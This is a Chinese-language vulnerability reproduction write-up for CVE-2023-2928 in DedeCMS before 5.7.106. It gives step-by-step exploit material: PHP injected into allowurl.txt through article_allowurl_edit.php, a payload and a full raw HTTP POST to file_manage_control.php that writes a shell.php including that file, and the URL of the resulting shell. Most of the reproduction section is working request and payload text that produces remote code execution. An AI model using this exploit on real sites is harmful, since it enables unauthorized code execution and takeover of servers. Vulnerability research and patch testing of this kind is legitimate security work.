 # DedeCMS 5.7 file_manage_control.php 文件包含 RCE CVE-2023-2928

## 漏洞描述

版本 5.7.106 之前的 DedeCMS 中存在漏洞，`/dede/article_allowurl_edit.php` 缺少对该文件中写入内容的过滤，结合 `/dede/file_manage_control.php` 文件构造文件包含代码，将构成远程代码执行。

## 漏洞影响

```
DedeCMS < 5.7.106
```

## 漏洞复现

文件 `/dede/article_allowurl_edit.php` 中未对文件内容做任何过滤，会把内容写入到

`/data/admin/allowurl.txt` 这个文件当中。

访问文件 `/dede/article_allowurl_edit.php`：

```
www.dedecms.com
www.desdev.cn
bbs.dedecms.com
<?php phpinfo();?>
```

![](images/DedeCMS%205.7%20file_manage_control.php%20文件包含%20RCE%20CVE-2023-2928/image-20240327140733554.png)

通过`/dede/file_manage_control.php`文件构造文件包含代码：

```shell
# Payload
fmdo=edit&backurl=&token=&activepath=&filename=shell.php&str=<?php include_once("./data/admin/allowurl.txt");?>
```

```
POST /dede/file_manage_control.php HTTP/1.1
Host: <YOUR_IP>
Content-Length: 135
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://<YOUR_IP>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<YOUR_IP>/dede/article_allowurl_edit.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: 
Connection: close

fmdo=edit&backurl=&token=&activepath=&filename=shell.php&str=%3C%3Fphp+include_once%28%22.%2Fdata%2Fadmin%2Fallowurl.txt%22%29%3B%3F%3E
```

![](images/DedeCMS%205.7%20file_manage_control.php%20文件包含%20RCE%20CVE-2023-2928/image-20240327141101710.png)

成功写入，访问：

```
http://<YOUR_IP>/shell.php
```

![](images/DedeCMS%205.7%20file_manage_control.php%20文件包含%20RCE%20CVE-2023-2928/image-20240327141412133.png)
